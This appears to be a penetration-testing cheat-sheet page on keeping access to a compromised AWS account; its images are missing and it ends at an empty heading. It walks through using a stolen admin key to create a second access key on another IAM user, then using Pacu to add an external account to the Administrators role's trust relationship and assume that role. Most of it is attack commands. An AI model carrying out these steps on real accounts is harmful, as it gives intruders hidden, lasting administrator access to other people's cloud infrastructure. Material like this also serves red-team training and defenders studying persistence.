# AWS

## AWS Persistence technique

* AWS IAM user can have 2 access keys
  * Admin access can add second key for other users
  * An alert is triggered in case of key replacement \(avoid 2keys user ...\)
* trust relationship \(**temp creds to access a resource**\)
  * sts:AssumeRole depending on policies, a user can make a temp credential request to get access to a user and/or a resource
  * Definied in IAM policy \(1hour lifespan\)



### 

### Backdoor an AWS account

After compromising admin key, we can add a key to an existing account.

* **list iam users**

```csharp
aws iam list-users --profile Admin
```



* **list users key \(one key user\)**

```csharp
aws iam list-access-keys --user-name BackupAdmin --profile Admin
```



* **Create a new access key on the target account**

```csharp
aws iam create-access-key --user-name BackupAdmin --profile Admin
```



* **List keys**



* **Configure a session for the backdoored account and access AWS** 

```csharp
aws sts get-caller-identity --profile BackupAdmin
```



### External user - Cross account Persistence

* Create a trust relationship with an entity outide the AWS account
* Retrieve your extenal ARN value

```csharp
aws sts get-caller-identity --profile testuser
```



* Launch pacu and import stolen profile key





* Enumerate users-roles

```csharp
run iam__enum_users_roles_policies_groups
```



```csharp
run iam__enum_permissions whoami
```



* Backdoor the account using the external one

```csharp
run iam__backdoor_assume_role --role-names Administrators --user-arns arn:aws:redacted
```



* Check roles \(backdoored must be in now\)

```csharp
aws iam get-role --role-name Administrators --profile StolenProfile
```



```csharp
aws sts assume-role --role-arn arn:aws:iam::REDACTED:role/Administrators --role-session-name test --profile testuser
```

### Resource



